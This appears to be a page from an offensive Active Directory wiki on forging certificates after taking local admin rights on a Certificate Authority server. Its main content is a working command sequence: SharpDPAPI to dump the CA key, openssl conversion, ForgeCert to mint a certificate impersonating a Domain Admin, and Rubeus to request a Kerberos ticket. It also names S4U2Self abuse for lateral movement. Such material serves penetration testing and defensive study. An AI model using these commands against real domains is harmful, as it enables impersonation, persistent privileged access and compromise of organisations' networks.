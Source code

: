 # Forged Certificates
---

## Vulnerability

If you are local administrator of a Certificate Authority server - *that might be deployed on another server than Domain Controller* - you can extract the CA private key to forge legit certificates. Since certificates are valid during **5 years** by default - *and generally at least 1 year* -, it is a great privilege escalation and persistence method.

## Prerequisites

* Local administrator rights on a Certificate Authority server (sometimes other than Domain Controller).

## Exploit

For this exploit, we will use [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [ForgeCert](https://github.com/GhostPack/ForgeCert) and [Rubeus](https://github.com/GhostPack/Rubeus).

```powershell
# Extract certificates of the machine.
.\SharpDPAPI.exe certificates /machine

# Save the private key and certificate to a .pem file then convert it to .pfx format.
openssl pkcs12 -inkey key.pem -in certificate.cert -export -out certificate.pfx

# Forge the certificate for the user you want to impersonate, i.e. Domain Admin of course.
.\ForgeCert.exe --CaCertPath certificate.pfx --CaCertPassword $whatever --Subject "CN=User" --SubjectAltName "$username@$domain" --NewCertPath .\Desktop\fake.pfx --NewCertPassword $whatever

# You can now request TGT with this fake certificate.
.\Rubeus.exe asktgt /user:$username /domain:$domain /enctype:aes256 /certificate:$cert /password:$password /nowrap.
```

You can also use this attack on domain computers, and combine it with [S4U2Self Abuse](/ad/s4u2self) to lateralize in the domain.
